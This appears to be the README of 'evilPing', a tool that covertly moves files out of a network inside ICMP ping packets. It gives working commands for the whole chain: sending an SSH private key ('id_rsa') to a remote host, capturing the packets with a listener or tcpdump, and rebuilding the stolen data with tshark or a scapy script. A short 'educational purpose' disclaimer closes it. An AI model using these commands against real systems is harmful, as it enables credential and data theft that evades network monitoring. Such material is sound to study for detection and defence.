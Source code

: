 # evilPing
This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```
![Running](img/test.png)

### Listening and extract data using evilPingListener.py
```
sudo python3 evilPingListener.py -s 192.168.56.1 --output passwd
```
![Listen](img/epl.png)

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```
![Listen](img/listen.png)

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y "ip.src==192.168.56.1 && icmp.type==8" | tail -n +2 | cut -c 17-48 | xxd -r -p
```
![Result](img/result.png)

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet[1:]:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
